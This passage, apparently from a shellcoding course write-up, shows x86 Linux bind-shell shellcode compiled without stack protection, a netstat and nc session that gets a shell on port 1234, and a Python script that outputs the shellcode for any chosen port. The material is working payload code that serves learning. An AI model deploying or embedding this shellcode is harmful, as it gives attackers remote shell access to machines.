Now compile with GCC without stack protection and run.

```
absolomb@ubuntu:~/SLAE/assignments/1$ gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/1$ ./shellcode
Shellcode Length:  97
```

```
absolomb@ubuntu:~/SLAE/assignments/1$ netstat -ant | grep 1234
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN     
absolomb@ubuntu:~/SLAE/assignments/1$ nc 127.0.0.1 1234
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

## Python Script for Configurable Port

To make the port configurable I made a simple Python script (which isn't the prettiest but works). The script will output the shellcode with the desired port.

```python
#!/usr/bin/env python3
import sys
import struct
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p', "--port")
args = parser.parse_args()

if args.port == None:
    parser.print_help()
    exit()

port = int(args.port)

if port > 65535:
    print("Please enter a valid port number!")
    exit()

if port < 1024:
    print("You'll need to be root to use this port!")

port = struct.pack("!H", port)

port = ("{}".format(''.join('\\x{:02x}'.format(b) for b in port)))

if "\\x00" in port:
    print(" Nulls in selected port!")
    exit()

shellcode = """
\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb0\\x66\\xb3\\x01\\x51\\x53\\x6a\\x02
\\x89\\xe1\\xcd\\x80\\x89\\xc7\\xb0\\x66\\x5b\\x31\\xd2\\x52\\x66\\x68%s
\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\x31\\xc0
\\x50\\x57\\x89\\xe1\\x43\\x43\\xb0\\x66\\xcd\\x80\\x31\\xd2\\x52\\x52
\\x57\\x43\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x93\\x31\\xc9\\xb1\\x02\\xb0
\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f
\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80
""" % (port)

print("Shellcode:")
print(shellcode.replace("\n", ""))
```